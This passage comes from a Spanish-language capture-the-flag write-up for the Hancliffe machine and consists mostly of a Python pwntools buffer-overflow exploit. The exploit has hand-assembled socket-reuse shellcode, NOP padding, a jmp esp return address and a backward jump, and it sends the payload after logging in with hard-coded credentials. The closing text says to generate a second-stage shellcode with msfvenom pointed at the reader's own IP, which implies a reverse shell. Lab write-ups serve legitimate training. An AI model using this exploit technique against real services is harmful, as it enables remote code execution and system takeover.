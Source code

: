 ```python
# [flag]
recv += b"\x31\xdb"             #   xor ebx, ebx
recv += b"\x53"                 #   push ebx

# [len]
recv += b"\x66\x81\xc3\x01\x04" #   add bx, 0x401
recv += b"\x53"                 #   puesh ebx

#Format
recv += b"\x54"                 #   push esp
recv += b"\x5b"                 #   pop ebx
recv += b"\x66\x83\xc3\x64"     #   add bx, 0x64
recv += b"\x53"                 #   push ebx
recv += b"\x56"                 #   push esi

# call recv
recv += b"\xa1\xac\x82\x90\x71" #   mov eax, [0x719082ac]
recv += b"\xff\xd0"              #   call eax

offset = 66 - len(recv)
junk = recv + b"\x90"*offset     # Noc´s
jmp_esp = p32(0x7190239F)
jmp_esp70 = b"\xEB\xB8"                     #jmp $-70
payload = junk + jmp_esp + jmp_esp70

if conexion_exitosa:
    r.recvuntil(b"Username:")
    r.sendline(b"alfiansyah")
    r.recvuntil(b"Password:")
    r.sendline(b"K3r4j@@nM4j@pAh!T")
    r.recvuntil(b"FullName:")
    r.sendline(b"Vickry Alfiansyah")
    r.recvuntil(b"Input Your Code:")
    r.sendline(payload)
    sleep(1)
    r.sendline(buf)
```

Si todo salió bien felicidades, cambia la ip al crear el shell code con msfvenom para ejecutarlo con la maquina de Hancliffe y felicidades 

![paste](./images/114.jpeg)
